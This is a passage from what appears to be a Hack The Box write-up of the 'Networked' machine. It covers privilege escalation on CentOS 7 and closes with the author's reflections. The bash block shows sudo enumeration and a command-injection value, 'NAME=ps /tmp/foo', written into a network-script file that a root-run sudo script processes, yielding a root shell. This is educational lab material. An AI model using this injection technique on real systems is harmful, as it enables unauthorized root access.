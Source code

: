 > The **NAME=** attributed in these **network scripts** is not handled correctly. If you have **white/blank space** in 
the name the system tries to execute the part after the **white/blank space**. Which means; everything after the first 
blank space is executed as **root**.

```bash
getcap / -r 2>/dev/null
sudo -l
# (root) NOPASSWD: /usr/local/sbin/changename.sh
ls -l /usr/local/sbin/changename.sh
# -rwxr-xr-x 1 root root        Owner: root!

cat !$
# cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF

cat /etc/os-release
# NAME="CentOS Linux"
# VERSION="7 (Core)"

cat /etc/sysconfig/network-scripts/ifcfg-guly
# NAME=ps /tmp/foo

sudo -l
sudo /usr/local/sbin/changename.sh
# oldb0y bash
# ...

whoami
```

<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/networked_writeup/Networked_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> What a way to resume my **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** practice, the machine I chose is not very complex in its engagement but I **really enjoyed** every phase I had to go through to finally engage it. **Code analysis** is one of my favorite techniques to look for attack vectors, and in this box I had a good time to improve and perfect this skill that is very much needed in **web pentesting**. I'm super motivated so I'm already thinking about my next goal, but first I must kill the **Networked** box from my **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** account and continue my practice.

<br /><br />
<img src="{{ site.img_path }}/networked_writeup/Networked_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
